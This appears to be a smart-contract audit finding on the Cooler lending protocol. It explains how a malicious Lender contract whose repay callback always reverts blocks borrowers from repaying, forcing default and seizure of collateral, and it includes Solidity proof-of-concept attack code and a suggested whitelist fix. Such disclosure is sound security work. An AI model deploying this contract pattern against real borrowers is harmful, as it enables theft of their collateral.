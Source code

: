 Cold Rusty Chameleon

high

# Borrower Unable to repay
## Summary

A malicious ```Lender``` smart contract deliberately not implementing ```CoolerCallback```'s ```onRepay()``` function correctly will cause the loan to default always.  

## Vulnerability Detail

Consider the following **Lender** implementation.
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.15;

import {SafeTransferLib} from "solmate/utils/SafeTransferLib.sol";
import {ERC20} from "solmate/tokens/ERC20.sol";
import {CoolerCallback} from "./CoolerCallback.sol";

interface ICooler {
    function clearRequest(uint256 reqID_, bool repayDirect_, bool isCallback_) external returns (uint256 loanID);
}

// only added some of the functions that are neccassary to showcase the attack vector
contract Lender is CoolerCallback {
    using SafeTransferLib for ERC20;

    constructor(address _factory) CoolerCallback(_factory) {}

    function _onRepay(uint256 loanID_, uint256 amount_) internal virtual override {
        revert("_onRepay");
    }

    function _onRoll(uint256 loanID_, uint256 newDebt, uint256 newCollateral) internal override {}

    function _onDefault(uint256 loanID_, uint256 debt, uint256 collateral) internal override {}

    function attack(ICooler _cooler, address _debtToken, uint256 _reqId) external {
        // assuming attacker has enough debt tokens to process clearRequest()
        ERC20(_debtToken).approve(address(_cooler), type(uint256).max);
        _cooler.clearRequest(_reqId, true, true);
    }
}

```
The only way for the borrower to get the collateral token back after **clearRequest()** is to repay the amount owed via **repayLoan()**. 

In ```repayLoan()```, when ```loan.callback = true```, then ```Cooler``` calls ```onRepay()``` on ```Lender``` contract.  However, a malicious ```Lender``` implementation like above will always cause ```onReapy()``` to revert making whole repayLoan() operation revert.

Example:

1 - Alice wants a loan for 1 month and calls  ```requestLoan()``` => 0(reqId)  on a **Cooler** that lends **DAI** 
2 - A malicious **Lender** using an implementation like above calls ```attack(0,DAI,coolerAddress)``` on **Lender** contract that will result in successful execution of ```clearRequest()``` on **Cooler** giving loan to Alice.
3 - Now after some time Alice wants to repay the loan, he calls ```repayLoan(0,someAmount)```, as ```loan.callback = true```, **Cooler** will call ```onRepay()``` on **Lender** that will revert making repay impossible every time.
4 - As the loan can not be repaid, a month will pass, the loan will expire, and anyone can call ```claimDefaulted()```.

Although, the **Lender** can transfer the ownership of the **loan** to another address via ```approveTransfer()```,  but he won't in this case as a bad actor.

References:
https://github.com/sherlock-audit/2023-08-cooler/blob/main/Cooler/src/Cooler.sol#L185

## Impact
Lender forced the loan to become default to get collateral tokens for any reasons, hence owner loses collateral tokens.
## Code Snippet

## Tool used

Manual Review

## Recommendation
May be introduce some global whitelist for **smart contract lenders** in CoolerFactory.sol and check if lender is on whitelist if non-EOA during ```clearRequest()```. 
